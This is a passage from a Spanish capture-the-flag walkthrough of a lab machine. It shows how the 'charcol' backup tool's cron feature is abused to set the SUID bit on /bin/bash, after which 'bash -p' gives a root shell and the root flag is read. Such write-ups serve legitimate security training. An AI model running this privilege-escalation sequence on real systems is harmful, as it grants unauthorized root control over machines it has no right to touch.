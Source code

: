 ```bash
Charcol The Backup Suit - Development edition 1.0.0

[2025-10-04 08:09:59] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol>
```

Si usamos el comando **help** de **charcol**, veremos cómo es su uso, pero hay una forma que nos permite ejecutar comandos, metiéndolos dentro de una **tarea CRON**:
```bash
Automated Jobs (Cron):
    auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
      Purpose: Add a new automated cron job managed by Charcol.
```
Entonces, podemos crear una **tarea CRON** que le dé **permisos SUID** a la **Bash**.

Vamos a intentarlo, escribe el siguiente comando:
```bash
charcol> auto add --schedule "* * * * *" --command "chmod u+s /bin/bash" --name "Privesc"
[2025-10-04 08:10:07] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-10-04 08:10:23] [INFO] System password verified successfully.
[2025-10-04 08:10:23] [INFO] Auto job 'Privesc' (ID: fc56769c-f8ca-4d9d-8eac-d405d236d7da) added successfully. The job will run according to schedule.
[2025-10-04 08:10:23] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod u+s /bin/bash
charcol>
```
Al ejecutarlo, te pedirá la contraseña del **usuario mark** y, al final, vemos que sí se creó la **tarea CRON**.

Sal de **charcol** y espera un minuto, luego revisa los permisos de la **Bash**:
```bash
charcol> exit
[2025-10-04 08:10:28] [INFO] Exiting Charcol shell.
mark@Imagery:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1474768 Oct 26  2024 /bin/bash
```
Funcionó.

Ejecutemos la **Bash** con privilegios:
```bash
mark@Imagery:~$ bash -p
bash-5.2# whoami
root
```
Ya somos **Root**.

Obtengamos la última flag:
```bash
bash-5.2# cd /root
bash-5.2# ls
chrome.deb  root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.
